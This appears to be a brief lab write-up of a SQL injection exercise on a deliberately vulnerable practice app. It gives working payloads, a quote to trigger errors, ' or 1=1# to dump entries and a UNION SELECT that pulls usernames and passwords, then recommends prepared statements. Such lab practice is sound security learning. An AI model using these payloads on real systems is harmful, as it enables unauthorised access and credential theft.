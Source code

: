 Security level is currently: low.

We can detect SQL injection with ' on submiting this we get SQL error.

we can see all entries with ' or 1=1# :

![Screenshot 2025-04-25 031141](https://github.com/user-attachments/assets/9100776d-0185-476b-8e3a-eb7877cb3e90)

We can extract all passwords with payload:

' UNION SELECT user, password FROM users#

![Screenshot 2025-04-25 031223](https://github.com/user-attachments/assets/3eb42d8a-c3c3-4bbf-9375-4686e54bd4e8)


Patch:

Use prepared statements (PDO/MySQLi).

Sanitize input.
